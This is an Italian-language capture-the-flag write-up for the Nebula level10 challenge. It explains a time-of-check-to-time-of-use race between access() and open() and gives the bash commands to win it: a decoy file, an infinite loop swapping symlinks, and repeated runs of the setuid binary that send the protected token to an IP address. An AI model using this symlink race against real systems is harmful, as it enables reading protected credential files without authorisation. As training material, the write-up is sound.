 \subsection{Idea per risolvere la sfida}
Leggendo il manuale della access vediamo che: Utilizzare access() per verificare se un utente è autorizzato ad aprire un file prima di farlo effettivamente usando open() crea una falla di sicurezza, perché l'utente potrebbe sfruttare il breve intervallo di tempo tra il controllo e l'apertura del file per manipolarlo."
Controllando il sorgente notiamo proprio che c'è effettivamente un intervallo tra il controllo dei permessi con la access e l'apertura del file con la open. Quindi sfruttiamo quest'intervallo:
\begin{itemize}
    \item Creiamo un file temporaneo che ci faccia superare il controllo della \textbf{access()}
    \item Sostituiamo il file da leggere con un link simbolico che punta al file \textbf{token} prima della \textbf{open()}, come fatto in \textbf{nebula04}.
\end{itemize}
Creiamo un token finto:
\begin{lstlisting}[style=bashstyle]
touch /tmp/tokenfinto
\end{lstlisting}
Scriviamo una stringa di test dentro il file \textbf{tokenfinto}
\begin{lstlisting}[style=bashstyle]
echo "test" > /tmp/tokenfinto
\end{lstlisting}

Creiamo il softlink a \textbf{tokenfinto}:
\begin{lstlisting}[style=bashstyle]
ln -s /tmp/tokenfinto /home/level10/flag
\end{lstlisting} 
Il soft link ci fa superare il controllo della access, perché abbiamo accesso al file puntato (abbiamo creato noi tokenfinto).
Una volta superato il controllo della access, creiamo un soft link al file token vero:
\begin{lstlisting}[style=bashstyle]
ln -sf /home/flag10/token /home/level10/flag 
\end{lstlisting} 
Il soft link ci fa superare il controllo della open, come in Level04.
Una singola esecuzione dell'attacco suggerito non è sufficiente, infatti potremmo non individuare il momento giusto per lo scambio del file tra la access() e la open().
Servono più esecuzioni del programma per far sì che il softlink, all'apertura della open(), punti al file token. Possiamo usare l'istruzione \textbf{BASH while true} per creare un ciclo infinito. Mettiamo il processo in background con \textbf{\&}:
\begin{lstlisting}[style=bashstyle]
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
\end{lstlisting} 
Creiamo un ciclo infinito di esecuzione di flag10 con:
\begin{lstlisting}[style=bashstyle]
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting} 
Sull'host otteniamo quindi il token dopo vari tentativi. Usiamo il token per entrare come flag10 e vincere la sfida.

